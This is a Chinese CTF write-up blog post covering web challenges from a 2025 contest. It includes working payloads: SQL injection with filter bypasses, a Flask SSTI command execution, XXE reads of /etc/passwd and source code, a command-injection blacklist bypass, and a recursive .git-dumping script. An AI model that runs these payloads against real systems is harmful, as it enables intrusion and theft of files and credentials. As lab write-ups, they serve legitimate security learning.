










---
title: "2025年春秋杯冬季赛"
date: 2026-01-29T23:04:08+08:00
summary: "只打了第一天，后面打别的去了"
url: "/posts/2025年春秋杯冬季赛/"
categories:
  - "赛题wp"
tags:
  - "2025春秋杯冬季赛"
draft: false
---

# Web1

# 信息收集与资产暴露

## Static_Secret

### #python目录穿越

开发小哥为了追求高性能，用 Python 的 某个库 写了一个简单的静态文件服务器来托管项目文档。他说为了方便管理，开启了某个“好用”的功能。但我总觉得这个旧版本的框架不太安全...你能帮我看看，能不能读取到服务器根目录下的 /flag 文件？

打开题目给了个静态文件路径

```html
Welcome to the vulnerable static server! Check /static/index.html
```

访问后也没啥东西

后面测出来是路径穿越漏洞，直接在路径处进行路径遍历就出来了



## Dev's Regret

### #Git泄露

Hi，story

猜测是Git泄露，用GitHack处理一下，但是只有src/app.py，index.html和README.md，没啥东西

前面一直想把整个git目录下下来的，但是一直没成功，让ai写了个脚本也一直没跑出来，最后发现是https的问题

提取git的脚本

```python
#!/usr/bin/env python3
"""
完整递归下载整个.git目录
支持HTTP/2、Cookie、多层嵌套目录
"""

import httpx
from bs4 import BeautifulSoup
import os
from urllib.parse import urljoin, urlparse

TARGET = ""  # 修改为你的目标
COOKIE = ""  # 如果需要就填

client = httpx.Client(http2=True, timeout=60.0, follow_redirects=True)

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
}

if COOKIE:
    headers['Cookie'] = COOKIE

downloaded_files = []
downloaded_dirs = []


def download_all(url, local_path, depth=0):
    """
    完全递归下载目录
    depth: 当前递归深度，用于缩进显示
    """
    indent = "  " * depth

    try:
        print(f"{indent}[📂] 访问: {url}")
        r = client.get(url, headers=headers)

        if r.status_code != 200:
            print(f"{indent}[✗] 失败 {r.status_code}")
            return

        # 创建本地目录
        os.makedirs(local_path, exist_ok=True)
        downloaded_dirs.append(local_path)

        # 解析HTML
        soup = BeautifulSoup(r.text, 'html.parser')
        links = []

        # 获取所有链接
        for link in soup.find_all('a'):
            href = link.get('href')
            if href and href not in ['.', '..', '/', '../', './']:
                links.append(href)

        if not links:
            print(f"{indent}[i] 空目录")
            return

        print(f"{indent}[i] 发现 {len(links)} 个项目")

        for href in links:
            # 构建完整URL
            if href.startswith('http'):
                full_url = href
            else:
                # 确保URL格式正确
                base = url if url.endswith('/') else url + '/'
                full_url = urljoin(base, href)

            # 获取文件/目录名
            item_name = href.rstrip('/')
            new_local_path = os.path.join(local_path, item_name)

            if href.endswith('/'):
                # 这是一个目录，递归下载
                print(f"{indent}[📁] 目录: {item_name}/")
                download_all(full_url, new_local_path, depth + 1)
            else:
                # 这是一个文件，下载
                download_file(full_url, new_local_path, depth + 1)

    except Exception as e:
        print(f"{indent}[!] 错误: {e}")


def download_file(url, local_path, depth=0):
    """下载单个文件"""
    indent = "  " * depth

    try:
        r = client.get(url, headers=headers)

        if r.status_code == 200:
            # 确保目录存在
            os.makedirs(os.path.dirname(local_path), exist_ok=True)

            with open(local_path, 'wb') as f:
                f.write(r.content)

            size = len(r.content)
            downloaded_files.append(local_path)
            print(f"{indent}[✓] 文件: {os.path.basename(local_path)} ({size} bytes)")
        else:
            print(f"{indent}[✗] 失败: {os.path.basename(local_path)} ({r.status_code})")

    except Exception as e:
        print(f"{indent}[!] 错误: {os.path.basename(local_path)} - {e}")


def main():
    print("=" * 70)
    print("Git目录完整下载工具 (HTTP/2)")
    print("=" * 70)
    print(f"目标: {TARGET}/.git/")
    print("=" * 70)

    # 测试连接
    print("\n[*] 测试连接...")
    try:
        test = client.get(f"{TARGET}/.git/", headers=headers)
        if test.status_code == 200:
            print(f"[✓] 连接成功! (HTTP/{test.http_version})")
        else:
            print(f"[!] 状态码: {test.status_code}")
            if test.status_code == 403:
                print("[!] 可能需要Cookie或权限")
            return
    except Exception as e:
        print(f"[!] 连接失败: {e}")
        return

    # 开始完整递归下载
    print("\n[*] 开始递归下载整个.git目录...\n")
    download_all(f"{TARGET}/.git/", ".git")

    # 统计
    print("\n" + "=" * 70)
    print(f"[✓] 下载完成!")
    print(f"    目录数: {len(downloaded_dirs)}")
    print(f"    文件数: {len(downloaded_files)}")
    print("=" * 70)

    # 尝试恢复Git仓库
    print("\n[*] 尝试恢复Git仓库...")
    os.system('git reset --hard HEAD 2>/dev/null')
    os.system('git checkout -f 2>/dev/null')

    # 显示结果
    print("\n[*] 文件列表:")
    os.system('ls -laR .git/ | head -50')

    print("\n[*] Git状态:")
    os.system('git status 2>/dev/null')

    print("\n[*] 提交历史:")
    os.system('git log --oneline --all 2>/dev/null')

    print("\n[*] 所有分支:")
    os.system('git branch -a 2>/dev/null')

    print("\n[*] 搜索敏感信息:")
    os.system('git grep -i "flag" 2>/dev/null || echo "未找到flag"')
    os.system('git grep -i "password" 2>/dev/null || echo "未找到password"')

    client.close()


if __name__ == '__main__':
    main()
```

需要注意的是这里的HTTP2

下下来后就可以操作git目录了，先列出对象，发现有一个哈希值对应一个flag.txt，读取一下就出来了



## Session_Leak

### #session伪造

给了一对用户名和密码，登录进去给了一个ID和session

登录页面成功登录抓包后拿到一个302跳转的路径，把username换成admin后发现返回了一个key



把username改成admin然后放包就能进行越权访问了



但是也没什么头绪，session不晓得怎么用

后面用admin登录后访问/admin拿到隐藏路由



这个应该是？非预期了吧

# 访问控制与业务逻辑安全

## My_Hidden_Profile

### #访问控制漏洞

在登录页面点击用户后抓包有一个id，把id改成999就行了

# 注入类漏洞

## EZSQL

传入`?id=1'`出现报错

 ```sql
 Query Failed: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
 ```

MariaDB数据库

and和or，`--+`，`#`以及空格都被过滤了，可以用&&，||进行绕过and和or，空格用括号去绕过

```http
?id=1'&&'1'='1回显id为1的内容
?id=1'&&'1'='2回显没找到
```

然后直接打报错注入

```http
/?id=-1'||extractvalue(1,concat(0x7e,(select(database())),0x7e))||'1'='1		~ctf~
```

因为单引号没法闭合，所以得多写个`||`去进行闭合

但是information的or被过滤了，打无列名注入发现没权限？？？

看看有没有写文件的权限呢？

```http
/?id=-1'||extractvalue(1,concat(0x7e,(select(@@secure_file_priv)),0x7e))||'1'='1
```

`@@secure_file_priv`是MySQL / MariaDB 系统变量，表示 **LOAD_FILE / INTO OUTFILE 允许的目录**

最后还是没捣鼓出来怎么做的

# Web2

# 模板与反序列化漏洞

## Hello User

### #flask下ssti

一个很正常的ssti，直接一把梭就行了

```python
/?name={{config.__init__.__globals__.os.popen(%27cat+/flag.txt%27).read()}}
```

# 中间件与组件安全

## RSS_Parser

### #xxe

某公司开发了一个在线RSS订阅解析服务，用户可以提交自己的RSS feed XML内容进行解析和预览。

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```



但是不知道flag的目录，后面报错看到源代码是index.php，尝试读取一下

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<foo>&xxe;</foo>
```

解码后拿到源码

```php
<?php
$FLAG = getenv('ICQ_FLAG') ?: 'flag{test_flag}';
file_put_contents('/tmp/flag.txt', $FLAG);
?>
<!DOCTYPE html>
<html>
<head>
    <title>RSS Parser</title>
    <style>
        body { font-family: Arial; max-width: 800px; margin: 50px auto; padding: 20px; }
        textarea { width: 100%; height: 200px; font-family: monospace; }
        button { padding: 10px 20px; background: #007bff; color: white; border: none; cursor: pointer; }
        .result { margin-top: 20px; padding: 15px; background: #f5f5f5; border-radius: 5px; }
    </style>
</head>
<body>
    <h1>📡 RSS Feed Parser</h1>
    <p>Submit your RSS feed URL and we'll parse it for you!</p>
    
    <form method="POST">
        <h3>RSS Feed XML:</h3>
        <textarea name="rss" placeholder="Paste your RSS XML here..."></textarea>
        <br><br>
        <button type="submit">Parse RSS</button>
    </form>
    
    <?php
    if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['rss'])) {
        $rss_content = $_POST['rss'];
        
        echo '<div class="result">';
        echo '<h3>Parsing Result:</h3>';
        
        // 漏洞代码：未禁用外部实体
        libxml_disable_entity_loader(false);
        
        try {
            $xml = simplexml_load_string($rss_content, 'SimpleXMLElement', LIBXML_NOENT);
            
            if ($xml === false) {
                echo '<p style="color:red">Failed to parse XML!</p>';
            } else {
                echo '<p style="color:green">RSS parsed successfully!</p>';
                echo '<pre>' . htmlspecialchars(print_r($xml, true)) . '</pre>';
            }
        } catch (Exception $e) {
            echo '<p style="color:red">Error: ' . htmlspecialchars($e->getMessage()) . '</p>';
        }
        
        echo '</div>';
    }
    ?>
    
    <div style="margin-top: 30px; padding: 15px; background: #fff3cd; border-left: 4px solid #ffc107;">
        <strong>💡 Hint:</strong> This parser accepts any valid XML/RSS format. 
        XML can be very powerful... maybe too powerful?
    </div>
    
    <div style="margin-top: 15px; padding: 15px; background: #d1ecf1; border-left: 4px solid #17a2b8;">
        <strong>Example RSS:</strong>
        <pre>&lt;?xml version="1.0"?&gt;
&lt;rss version="2.0"&gt;
  &lt;channel&gt;
    &lt;title&gt;My Feed&lt;/title&gt;
    &lt;item&gt;
      &lt;title&gt;Test Item&lt;/title&gt;
    &lt;/item&gt;
  &lt;/channel&gt;
&lt;/rss&gt;</pre>
    </div>
</body>
</html>

```

提示flag在/tmp/flag.txt，那就读一下就行了



## Server_Monitor

### #命令执行绕过

一个静态页面，但是在/assets/script.js中发现端倪

```javascript
unction checkSystemLatency() {
    const statusDiv = document.getElementById('ping-status');
    
    const formData = new FormData();
    formData.append('target', '8.8.8.8'); 

    fetch('api.php', {
        method: 'POST',
        body: formData
    })
    .then(response => response.json())
    .then(data => {
        if(data.status === 'success') {
            statusDiv.innerText = `Last check: ${data.output} ms`;
        } else {
            console.warn('Monitor Error:', data.message);
        }
    })
    .catch(err => console.error('API Error', err));
}
```

可以通过api.php发送post请求，参数是target，能执行ping命令



这里用逗号执行多个命令就行了，毕竟有回显


在api.php源码中拿到黑名单

```php
$blacklist = "/ |\/|\*|\?|<|>|cat|more|less|head|tail|tac|nl|od|vi|vim|sort|uniq|flag|base64|python|bash|sh/i";

if (preg_match($blacklist, $target)) {
    echo json_encode([
        'status'  => 'error',
        'message' => 'Security Alert: Malicious input detected.'
    ]);
    exit;
}

$cmd = "ping -c 1 " . escapeshellarg($target);
$output = shell_exec($cmd);
```

但是因为可以多条命令执行，所以直接三个cd到根目录然后读取flag就行了

```php
target=127.0.0.1;cd${IFS}..;cd${IFS}..;cd${IFS}..;ca''t${IFS}f\lag
```



# MISC

# 数据处理与分析

## 隐形的守护者

lsb图片隐写，直接用随波逐流看就行了


